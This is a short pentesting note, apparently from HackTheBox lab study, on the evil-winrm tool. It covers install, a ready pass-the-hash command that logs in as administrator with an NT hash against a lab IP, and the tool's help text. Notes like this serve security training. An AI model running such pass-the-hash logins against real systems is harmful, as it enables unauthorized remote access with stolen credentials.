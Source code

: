 [Github](https://github.com/Hackplayers/evil-winrm)
###### Requires
 - Ruby
###### Install

```shell-session
gem install evil-winrm
```

login to an account using a pass the hash attack
```bash-session
evil-winrm -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99 -i 10.129.202.242
```

###### Help
```shell-session
maiamor@htb[/htb]$ evil-winrm 

Evil-WinRM shell v3.3

Error: missing argument: ip, user

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```

# About


The ultimate WinRM shell for hacking/pentesting
## Description & Purpose

[Github about page](https://github.com/Hackplayers/evil-winrm#description--purpose)
